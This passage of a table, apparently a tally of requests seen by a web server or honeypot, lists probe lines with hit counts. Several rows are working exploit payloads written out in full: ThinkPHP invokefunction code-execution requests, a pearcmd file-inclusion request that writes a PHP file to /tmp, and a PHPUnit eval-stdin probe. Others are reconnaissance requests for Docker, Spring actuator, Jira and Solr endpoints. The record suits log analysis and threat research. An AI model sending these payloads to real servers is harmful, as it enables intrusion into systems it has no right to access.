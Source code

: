 |  64 |                     5 | GET /index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                 |
|  65 |                     5 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                          |
|  66 |                     5 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                |
|  67 |                     5 | GET /containers/json HTTP/1.1                                                                                                                                                                                                                                                                                                                              |
|  68 |                     5 | GET /t4 HTTP/1.1                                                                                                                                                                                                                                                                                                                                           |
|  69 |                     5 | GET /apps/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                      |
|  70 |                     5 | GET /actuator/gateway/routes HTTP/1.1                                                                                                                                                                                                                                                                                                                      |
|  71 |                     4 | GET /s/lkx/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties HTTP/1.1                                                                                                                                                                                                                                                                  |
|  72 |                     4 | GET /.json HTTP/1.1                                                                                                                                                                                                                                                                                                                                        |
|  73 |                     4 | GET /config.json HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
|  74 |                     4 | GET /server-status HTTP/1.1                                                                                                                                                                                                                                                                                                                                |
|  75 |                     4 | HEAD / HTTP/1.1                                                                                                                                                                                                                                                                                                                                            |
|  76 |                     4 | OPTIONS / RTSP/1.0                                                                                                                                                                                                                                                                                                                                         |
|  77 |                     4 | GET /solr/admin/info/system HTTP/1.1                                                                                                                                                                                                                                                                                                                       |
|  78 |                     4 | OPTIONS / HTTP/1.0                                                                                                                                                                                                                                                                                                                                         |